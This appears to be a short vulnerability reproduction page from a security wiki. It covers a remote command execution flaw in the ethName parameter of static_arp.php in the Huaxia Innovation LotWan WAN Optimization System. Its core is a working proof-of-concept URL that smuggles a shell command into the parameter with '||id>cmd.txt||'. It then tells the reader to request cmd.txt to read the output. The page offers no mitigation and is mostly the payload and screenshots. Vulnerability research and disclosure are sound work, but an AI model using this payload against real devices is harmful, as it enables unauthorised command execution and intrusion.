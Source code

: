 # Huaxia Innovation LotWan WAN Optimization System static_arp.php Remote Command Execution Vulnerability

## Vulnerability Description

Huaxia Innovation LotWan WAN Optimization System static_arp.php file parameter ethName has command splicing, resulting in remote command execution vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Huaxia Innovation LotWan WAN Optimization System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123722094.png)

The file with vulnerability is

```php
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635942680846-eb442f59-4229-43ad-a133-5c5587d20774.png)

Visit `/acc/bindipmac/cmd.txt again`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635942700371-15189d95-a643-4b0d-95bb-14f6285796d2.png)
